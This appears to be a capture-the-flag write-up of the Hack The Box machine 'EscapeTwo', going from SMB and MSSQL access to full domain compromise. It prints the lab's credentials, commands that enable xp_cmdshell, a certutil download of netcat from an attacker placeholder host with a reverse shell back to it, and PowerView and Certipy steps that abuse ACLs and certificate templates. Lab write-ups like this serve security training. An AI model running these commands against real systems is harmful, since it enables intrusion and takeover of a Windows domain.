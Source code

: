 ![image](img/EscapeTwo/EscapeTwo.png)


### Enumeration

1. **Nmap Full TCP Scan:**
    
    ```bash
    nmap -p- --min-rate=1000 -T4 10.10.11.51
    ports=$(...) # Extract ports
    nmap -p$ports -sC -sV 10.10.11.51
    ```
    
2. **Findings:**
    
    - SMB (445), LDAP (389), Kerberos (88)
        
    - MSSQL (1433)
        
    - Domain: `sequel.htb`, DC: `dc01.sequel.htb`
        
    
3. **Initial creds found:**  
    `rose:KxEPkKe6R8su`
    

---

### Share Enumeration (SMB)

4. **List Shares:**
    
    ```bash
    smbclient -U 'sequel.htb\rose' //10.10.11.51/Accounting\ Department
    ```
    
5. **Download an Excel file found on the system:**
    
    - `accounts.xlsx`
        
    - `accounting_2024.xlsx`
        
6. **File is ZIP internally, have to correct the magic bytes:**
    
    - Wrong magic bytes: `50 48 04 03`
        
    - Correct it to: `50 4B 03 04` using hex editor
        
7. **Extract & open file to get creds:**  
    `oscar:86LxLBMgEWaKUnBG`
    

---

### Foothold via MSSQL

8. **Login to MSSQL using `oscar` credentials:**
    
    ```bash
    impacket-mssqlclient sequel.htb/oscar@10.10.11.51 -p '86LxLBMgEWaKUnBG'
    ```
    
9. **Enable xp_cmdshell:**
    
    ```sql
    EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
    EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
    ```
    
10. **Use `whoami` to verify:**  
    → `sequel\sql_svc`
    
11. **Get reverse shell using Netcat (via certutil):**
    
    ```sql
    EXEC xp_cmdshell 'certutil -urlcache -split -f http://<attacker-ip>:4000/nc64.exe C:\Users\sql_svc\Desktop\nc64.exe'
    EXEC xp_cmdshell 'C:\Users\sql_svc\Desktop\nc64.exe -e cmd.exe <attacker-ip> <port>'
    ```
    

---

###  Lateral Movement

12. **Check `C:\SQL2019` folder for config file:**
    
    - Found: `sql-Configuration.INI`
        
    - Creds inside:
        
        - `SQLSVCPASSWORD="WqSZAF6CysDQbGb3"`
            
13. **Password spray against domain users:**
    
    - Valid for `ryan:WqSZAF6CysDQbGb3`
        
14. **Login via WinRM:**
    
    ```bash
    evil-winrm -i 10.10.11.51 -u ryan -p 'WqSZAF6CysDQbGb3'
    ```
    

---

### Privilege Escalation

15. **BloodHound shows:**  
    `ryan → WriteOwner → ca_svc`
    
16. **Take over `ca_svc` account:**
    
    - Use `PowerView.ps1`:
        
        ```powershell
        Set-DomainObjectOwner -Identity "ca_svc" -OwnerIdentity "ryan"
        Add-DomainObjectAcl -TargetIdentity "ca_svc" -Rights ResetPassword -PrincipalIdentity "ryan"
        $cred = ConvertTo-SecureString "Password123!!" -AsPlainText -Force
        Set-DomainUserPassword -Identity "ca_svc" -AccountPassword $cred
        ```
        
17. **Verify login as `ca_svc`:**
    
    ```bash
    netexec smb sequel.htb -u ca_svc -p 'Password123!!'
    ```
    
18. **Enumerate ADCS templates with Certipy:**
    
    ```bash
    certipy find -u 'ca_svc@sequel.htb' -p 'Password123!!' -dc-ip 10.10.11.51 -stdout
    ```
    
19. **Template `DunderMifflinAuthentication` is vulnerable (ESC1–ESC4)**
    
20. **Modify template to allow impersonation:**
    
    ```bash
    certipy template -u ca_svc@sequel.htb -p 'Password123!!' -template DunderMifflinAuthentication -save-old -dc-ip 10.10.11.51
    ```
    
21. **Request cert for Administrator:**
    
    ```bash
    certipy req -username ca_svc@sequel.htb -p 'Password123!!' -ca sequel-DC01-CA -template DunderMifflinAuthentication -target dc01.sequel.htb -upn administrator@sequel.htb
    ```
    
22. **Extract Administrator hash:**
    
    ```bash
    certipy auth -pfx administrator.pfx -domain sequel.htb
    ```
    
23. **Login with Evil-WinRM using hash:**
    
    ```bash
    evil-winrm -i 10.10.11.51 -u Administrator -H <ntlm_hash>
    ```
    
24. **Root flag:**
    
    ```powershell
    type C:\Users\Administrator\Desktop\root.txt
    ```
    
`pwned`